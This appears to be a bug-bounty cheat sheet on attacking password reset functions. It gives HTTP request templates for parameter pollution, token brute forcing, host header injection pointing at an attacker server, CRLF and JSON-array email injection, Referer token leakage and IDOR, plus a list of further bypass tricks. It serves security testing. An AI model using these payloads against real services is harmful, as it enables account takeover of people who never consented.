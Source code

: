 ```yaml
---
description: Below are some references for the Password Reset Functionality attacks.
---
```


# **Password Reset Functionality** #

## **Concept** ##

In this vulnerability attacker tries to attack the password rest functionality of the application, if the attacker is successful in doing so this might lead to full account takeover, Below are some way to exploit this attack.

## **Ways to bypass** ##

### **Include your email as second parameter** ###

```
POST  /reset
[....]
email=victim@xyz.com&email=attacker@abc.com
```

### **Brute force the password reset token** ###

```
POST  /reset
[....]
email=victim@xyz.com&token={bruteforce}
```

### **Try to use reset token to victims account** ###

```
POST  /reset
[....]
email=victim@xyz.com&token={yourtoken}
```

### **Host header injection (try changing the host, this might lead to passing the token to attackers server)** ###

```
POST  /reset
Host: Attacker.com
```

### **Try figuring how the tokens are generated** ###

```
Like
They might be generated based on timestamp.
They might be generated based on the user id.
They might be generated based on the email id.
```

### **CRLF Injection** ###

```
POST  /reset
[....]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

```
 CLRF: 
 POST /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

### **Business logic** ###

```markup
While inviting users into your account/organization, 
you can also try inviting company emails and add a new field
"password": "example123". or "pass": "example123" in the 
request. you may end up resetting a user password.
(company email can be found here 
hunter.io)
```

### **JSON array** ###

```
POST  /reset
[....]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

### **Token leakage via refer header** ###

```
POST  /reset
[....]
Referer:https://xyz.com/token={token}
```

### **IDOR for password reset (we can change the id parameter)** ###

```
POST  /reset
[....]
id=1234&
```

### **Some other ways** ###

1. **Race condition:** Exploit timing dependencies to manipulate password reset processes.
2. **Completely remove the token:** Attempt reset without providing a valid token.
3. **Change token to all zeroes:** Try resetting with a token composed entirely of zeroes.
4. **Use null/nil value:** Provide null or nil instead of a valid token.
5. **Try expired token:** Attempt to use a token that has already expired.
6. **Reuse old password reset token:** Use a previously used token for reset.
7. **Try an array of old tokens:** Attempt reset with multiple old tokens simultaneously.
8. **Modify token slightly:** Alter token characters to check for validation weaknesses.
9. **Use Unicode to spoof email:** Exploit Unicode characters to manipulate email addresses.
10. **Manipulate email format:** Attempt to include multiple addresses or special characters in the email field.
11. **Change request method/content type:** Modify HTTP request methods or content types during the reset process.
12. **Manipulate server response:** Intercept and alter server responses during reset attempts.
13. **Use super long input:** Provide excessively long inputs to exploit validation or buffer overflow vulnerabilities.
